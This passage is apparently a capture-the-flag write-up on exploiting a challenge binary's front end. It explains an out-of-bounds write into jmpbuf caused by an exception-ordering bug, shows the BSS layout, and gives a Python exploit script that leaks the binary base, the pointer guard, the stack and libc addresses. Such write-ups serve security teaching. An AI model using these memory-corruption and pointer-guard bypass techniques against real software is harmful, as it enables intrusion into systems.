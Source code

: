 ### Exploiting the Front-End

The main bug in the front-end is that the "add data" command sets the `can_add` global flag *after* calling `read_msg`. `read_msg` asks the user to input a message, and there are several ways to make it throw an exception: inputting a bad size (outside of 1-256), a bad packet ID (outside of 0-9), a bad answer to "Data in hex?" (outside of `y`/`n`) or inputting a bad CRC.

Thus, we can overflow the `msgs` array as follows: add 9 messages, then add a 10th message with an incorrect CRC or size. This will throw an exception from `read_msg`, preventing the `can_add` flag from being set to 0; subsequent messages will be written out of bounds.

The memory layout of the BSS looks like this:

```
0x15020  msg  msgs[10]
0x15ae8  uint num_msgs
0x15aec  byte unused[0x134]
0x15c20  char *exc_msg
0x15c28  uint exc_occurred
0x15c30  jmp_buf jmpbuf
```

So, by overflowing the `msgs` array, we can manipulate `jmpbuf`, thereby changing where `longjmp` goes when an exception occurs.

On this version of `libc`, `jmpbuf` contains two pointers of interest: the saved LR (x30) register, which tells `longjmp` where to return to, and the saved SP (stack pointer). Both are guarded by XORing against a randomly-chosen value (`__pointer_chk_guard`). We can create an uninitialized message by specifying a size of 256, then providing an invalid response to the "Data in hex?" question and triggering an exception. Then, we can "View" the message to leak memory contents. Using this, we can leak the `exc_msg` pointer to obtain the binary's base address (PIE is enabled), and the contents of `jmpbuf` to leak an obfuscated program address, a libc address which happens to be captured in `jmpbuf`, and a stack address:

```python
# fill msgs
for i in range(10):
    bad_msg(b"a")

# insert extra msg, throw exception on msg size
menu("E")
menu("A")
sendint(999)

# insert one more to overlap jmpbuf, throw exception on hex choice
menu("E")
menu("A")
sendint(256)
sendint(9)
menu("?")

# leak jmpbuf
menu("E")
menu("V")
menu("y")
menusync()
s.recvuntil(b"Message 9: ")
leak = bytes.fromhex(s.recvline().decode())

exe_base = u64(leak[0x18:0x20]) - 0x4060
log.info("exe base: %x", exe_base)
ptr_guard = u64(leak[0x80:0x88]) ^ (exe_base + 0x1f8c)
log.info("ptr guard: %x", ptr_guard)
stack_addr = u64(leak[0x90:0x98]) ^ ptr_guard
log.info("stack addr: %x", stack_addr)
libc_base = u64(leak[0x38:0x40]) - 0x151000
log.info("libc base: %x", libc_base)
```
